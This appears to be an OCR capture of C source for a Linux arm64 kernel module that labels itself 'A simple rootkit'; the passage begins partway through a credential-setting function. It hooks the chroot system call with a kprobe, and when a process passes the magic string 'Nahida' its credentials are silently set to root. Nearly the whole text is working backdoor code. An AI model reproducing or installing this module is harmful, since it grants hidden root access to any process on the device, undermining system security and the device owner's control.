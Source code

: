 ```
	cred = (struct cred*)task->cred;
	if (cred) {
		set_cred_root(cred);
	}
	put_task_struct(task);
out_pid:
	put_pid(proc_pid_struct);
out:
	return ret;
}



static void handler_post(struct kprobe *p, struct pt_regs *regs, unsigned long flags) {
}

static int handler_fault(struct kprobe *p, struct pt_regs *regs, int trapnr) {
    return 0;
}

struct Param {
    const char __user *filename;
};

static int handler_pre(struct kprobe *p, struct pt_regs *regs) {
	char buf[8];
    struct Param param = *(struct Param *)regs->regs[0];
    copy_from_user(buf, param.filename, 8);
	buf[6] = 0;
	pr_emerg("chroot: %s", buf);
	if (strcmp(buf, "Nahida") == 0) {
		pr_emerg("root!");
		set_process_root(current->pid);
	}
    return 0;
}

static struct kprobe kp = {
    .symbol_name = "__arm64_sys_chroot",
    .pre_handler = handler_pre,
    .post_handler = handler_post,
    .fault_handler = handler_fault
};

int rootkit_init(void){
	int ret = register_kprobe(&kp);
	pr_emerg("load: %d", ret);
	return ret;
}

void rootkit_exit(void){
	unregister_kprobe(&kp);
	pr_emerg("unload");
}

module_init(rootkit_init);
module_exit(rootkit_exit);
MODULE_LICENSE("GPL");
MODULE_AUTHOR("Ylarod");
MODULE_DESCRIPTION("A simple rootkit");

```
